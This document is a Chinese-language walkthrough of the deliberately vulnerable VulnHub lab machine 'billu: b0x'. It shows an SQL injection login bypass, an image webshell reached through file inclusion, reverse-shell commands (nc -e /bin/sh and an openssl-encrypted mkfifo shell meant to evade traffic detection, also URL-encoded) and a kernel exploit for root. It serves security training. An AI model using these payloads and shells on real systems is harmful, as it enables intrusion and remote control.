










- [端口探测](#----)
- [Web服务getshell](#web--getshell)
- [提权至root](#---root)
- [结语](#--)

vulnhub 靶机 [billu: b0x](https://www.vulnhub.com/entry/billu-b0x,188/) 的walkthrough。

# 端口探测

```bash
nmap 192.168.245.132 -n -p 0-65535
```

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

ssh上没什么收获，下面测试web服务。

# Web服务getshell

- 主页sql注入，简单测了一下没结果，先放着

- 扫描目录，可以得到一些额外页面

  ```bash
  ./dirsearch.py -u http://192.168.245.132/ -e php 
  ```

  

  查看后关注下面几个额外页面：
  
    ```
    [16:47:48] 200 -  307B  - /add.php                   
    [16:47:52] 301 -  319B  - /images  ->  http://192.168.245.132/images/
    [16:47:55] 200 -    8KB - /phpmy/                    
    [16:47:57] 200 -   72B  - /test.php
    ```
  
  - `/add.php` 是个图片上传的界面，但好像没什么效果 
  
  - `/images/` 是个图片目录，有几张图片
  
  - `/phpmy/` phpmyadmin的登陆界面
  
  - `/test.php` 重点来了，这个测试文件可以用来获取源码
  
    
  
  用同样的方式获取index.php的源码：
  
  `/index.php`
  
  ```php
    <?php
    session_start();
    
    include('c.php');
    include('head.php');
    if(@$_SESSION['logged']!=true)
    {
    	$_SESSION['logged']='';
    	
    }
    
    if($_SESSION['logged']==true &&  $_SESSION['admin']!='')
    {
    	
    	echo "you are logged in :)";
    	header('Location: panel.php', true, 302);
    }
    else
    {
    echo '<div align=center style="margin:30px 0px 0px 0px;">
    <font size=8 face="comic sans ms">--==[[ billu b0x ]]==--</font> 
    <br><br>
    Show me your SQLI skills <br>
    <form method=post>
    Username :- <Input type=text name=un> &nbsp Password:- <input type=password name=ps> <br><br>
    <input type=submit name=login value="let\'s login">';
    }
    if(isset($_POST['login']))
    {
    	$uname=str_replace('\'','',urldecode($_POST['un']));
    	$pass=str_replace('\'','',urldecode($_POST['ps']));
    	$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
    	$result = mysqli_query($conn, $run);
    if (mysqli_num_rows($result) > 0) {
    
    $row = mysqli_fetch_assoc($result);
    	   echo "You are allowed<br>";
    	   $_SESSION['logged']=true;
    	   $_SESSION['admin']=$row['username'];
    	   
    	 header('Location: panel.php', true, 302);
       
    }
    else
    {
    	echo "<script>alert('Try again');</script>";
    }
    	
    }
    echo "<font size=5 face=\"comic sans ms\" style=\"left: 0;bottom: 0; position: absolute;margin: 0px 0px 5px;\">B0X Powered By <font color=#ff9933>Pirates</font> ";
    
    ?>
  ```
  
  可以发现原来是过滤了单引号，且密码`ps`字段没有进行哈希，到这我意识到前面注入测试时没有考虑这种情况，其实很简单，payload为`un=or 1#&ps=\&login=let's login`，拼接后查询语句为
  
  ```sql
    select * from auth where  pass='\' and uname='or 1#';
  ```
  
- 利用sqli登陆后，来到`/panel.php`界面

  在这里可以进图片上传和查看

  

  结合其源码进行审计

  `/panel.php`

  ```php
  <?php
  session_start();
  
  include('c.php');
  include('head2.php');
  if(@$_SESSION['logged']!=true )
  {
  		header('Location: index.php', true, 302);
  		exit();
  	
  }
  echo "Welcome to billu b0x ";
  echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
  if(isset($_POST['lg']))
  {
  	unset($_SESSION['logged']);
  	unset($_SESSION['admin']);
  	header('Location: index.php', true, 302);
  }
  echo '<hr><br>';
  
  echo '<form method=post>
  
  <select name=load>
      <option value="show">Show Users</option>
  	<option value="add">Add User</option>
  </select> 
  
   &nbsp<input type=submit name=continue value="continue"></form><br><br>';
  if(isset($_POST['continue']))
  {
  	$dir=getcwd();
  	$choice=str_replace('./','',$_POST['load']);
  	
  	if($choice==='add')
  	{
         		include($dir.'/'.$choice.'.php');
  			die();
  	}
  	
          if($choice==='show')
  	{
          
  		include($dir.'/'.$choice.'.php');
  		die();
  	}
  	else
  	{
  		include($dir.'/'.$_POST['load']);
  	}
  }
  if(isset($_POST['upload']))
  {
  	$name=mysqli_real_escape_string($conn,$_POST['name']);
  	$address=mysqli_real_escape_string($conn,$_POST['address']);
  	$id=mysqli_real_escape_string($conn,$_POST['id']);
  	
  	if(!empty($_FILES['image']['name']))
  	{
  		$iname=mysqli_real_escape_string($conn,$_FILES['image']['name']);
  	$r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
  	$image=array('jpeg','jpg','gif','png');
  	if(in_array($r,$image))
  	{
  		$finfo = @new finfo(FILEINFO_MIME); 
  	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
  		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
  				{
  					if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
  							 {
  							  echo "Uploaded successfully ";
  							  $update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')'; 
  							 mysqli_query($conn, $update);			  
  							}
  				}
  			else
  			{
  				echo "<br>i told you dear, only png,jpg and gif file are allowed";
  			}
  	}
  	else
  	{
  		echo "<br>only png,jpg and gif file are allowed";
  	}
  }
  }
  ?>
  ```

  得知图片存储路径为`/uploaded_images/`，同时注意到如下代码（上述`/panel.php`中30-51行）：

  ```php
  ...
  if(isset($_POST['continue']))
  {
  	$dir=getcwd();
  	$choice=str_replace('./','',$_POST['load']);
  	
  	if($choice==='add')
  	{
         		include($dir.'/'.$choice.'.php');
  			die();
  	}
  	
          if($choice==='show')
  	{
          
  		include($dir.'/'.$choice.'.php');
  		die();
  	}
  	else
  	{
  		include($dir.'/'.$_POST['load']);
  	}
  }
  ...
  ```

  不难看出，可以通过`$_POST['load']`对网站根目录下任意文件进行包含。所以我,们先通过`/panel.php`上传一个图片马，然后构造请求进行包含即可。

  `ccl.png`

  

  

  

# 提权至root

- 反弹shell

  为了提权，首先我们需要反弹个shell。

  监听本地4444端口

  ```bash
  nc -lvp 4444
  ```

  使用nc在目标服务器反弹shell

  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=system('nc 192.168.245.154 4444 -e /bin/sh');" -o tmp
  ```

  问题不期而至。本地4444端口依旧处于监听状态，但没有任何反应，没有得到我想要的shell。

  首先我想到可能是目标服务器没有nc，查看发现是有的

  

  进一步确认`/bin/sh`或`/bin/bash`也都是存在的，权限也没有问题。

  推测是服务器防火墙对外出流量进行了限制，考虑如下两种情况：

  - 出口流量限制（不允许主动对外发起连接或只允许对外端口在白名单内的流量)
  
  - 恶意流量监测
  
  尝试使用nc进行一次简单连接， `nc 192.168.245.154 4444`
  
  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=system('nc 192.168.245.154 4444');" -o tmp
  ```
  
  发现本地可以监听到连接信息，遂排除第一种情况，推测防火墙进行了恶意流量检测，对此，尝试使用openssl加密流量。
  
  首先在本地生成证书和公钥，使用openssl的s_server进行监听：
  
  ```bash
  openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 30 -nodes
  openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
  ```
  
  在服务器端使用openssl的s_client发起访问：
  
  ```bash
  mkfifo /tmp/tmp_pipe;/bin/sh -i < /tmp/tmp_pipe 2>&1|openssl s_client -connect 192.168.245.154:4444 > /tmp/tmp_pipe;rm /tmp/tmp_pipe
  ```
  
  url编码后发送到服务器
  
  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=%73%79%73%74%65%6d%28%27%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%20%32%3e%26%31%7c%6f%70%65%6e%73%73%6c%20%73%5f%63%6c%69%65%6e%74%20%2d%63%6f%6e%6e%65%63%74%20%31%39%32%2e%31%36%38%2e%32%34%35%2e%31%35%34%3a%34%34%34%34%20%3e%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%72%6d%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%27%29%3b" -o tmp
  ```
  
  成功得到响应，但仍有问题：
  
  
  
  握手失败，看起来是两端openssl兼容性问题（服务器的openssl版本很旧了），尝试直接指定s_client使用的协议，发现使用`tlsv1.2`可以解决问题：
  
  ```bash
  mkfifo /tmp/tmp_pipe;/bin/sh -i < /tmp/tmp_pipe 2>&1|openssl s_client -tls1_2 -connect 192.168.245.154:4444 > /tmp/tmp_pipe;rm /tmp/tmp_pipe
  ```
  
  ```bash
  curl http://192.168.245.132/panel.php -b "PHPSESSID=n84resdb8kifghj18g41ktm1l6" -d "load=uploaded_images/ccl.png&continue=continue&cmd=%73%79%73%74%65%6d%28%27%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%20%32%3e%26%31%7c%6f%70%65%6e%73%73%6c%20%73%5f%63%6c%69%65%6e%74%20%2d%74%6c%73%31%5f%32%20%2d%63%6f%6e%6e%65%63%74%20%31%39%32%2e%31%36%38%2e%32%34%35%2e%31%35%34%3a%34%34%34%34%20%3e%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%3b%72%6d%20%2f%74%6d%70%2f%74%6d%70%5f%70%69%70%65%27%29%3b" -o tmp
  ```
  
  成功弹回shell
  
  
  
  这仍是个哑shell，想更方便操作的话，可使用python和stty升级为可交互的shell。
  
- 提权

  查看内核版本
  
  ```bash
  uname -a
  ```
  
  ```
  Linux indishell 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
  ```
  
  发现内核版本较低，考虑内核漏洞提权，尝试在kali中搜索一下漏洞库
  
  
  
  看起来正中目标。
  
  选取第一个`37292.c`传到目标服务器，编译执行，可以成功提权：
  
  

# 结语

结束后查看别人的walkthrough，发现用之前的test.php读取`phpmy/config.inc.php`这个配置文件，其中有一对用户名密码`root:roottoor`，可以直接ssh登录，直接就到root了 ...... \_(:3」∠)\_

